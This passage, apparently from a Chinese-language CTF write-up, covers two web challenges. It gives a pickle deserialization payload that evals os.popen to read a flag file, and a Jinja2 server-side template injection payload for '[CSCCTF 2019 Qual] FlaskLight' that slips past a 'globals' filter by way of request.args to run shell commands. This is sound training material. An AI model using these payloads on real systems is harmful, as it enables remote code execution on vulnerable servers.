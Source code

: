 ```python
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

存在 pickle 反序列化, payload 如下

```
c__builtin__
eval
p0
(S"__import__('os').popen('cat /flag.txt').read()"
p1
tp2
Rp3
.
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209151024676.png)

post 请求的时候需要加上 `_xsrf`, 我就在之前的请求包里面随便找了一个, 不加的话会返回 403

## [CSCCTF 2019 Qual]FlaskLight

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209151041507.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209151041381.png)

get 传参 search=123

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209151042137.png)

猜测有 ssti

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209151042100.png)

之后就是用 builtins + eval 执行命令

测试后发现过滤了 globals, 但是 request.args 以及各种符号没有被过滤

payload 如下

```python
{{ ''[request.args.a][request.args.b][-1][request.args.c]()[59][request.args.d][request.args.e][request.args.f][request.args.g](request.args.h) }}
```

get 传参

```
&a=__class__&b=__mro__&c=__subclasses__&d=__init__&e=__globals__&f=__builtins__&g=eval&h=__import__('os').popen('whoami').read()
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209151043116.png)

看 wp 的时候发现还可以用 subprocess.Popen 执行命令
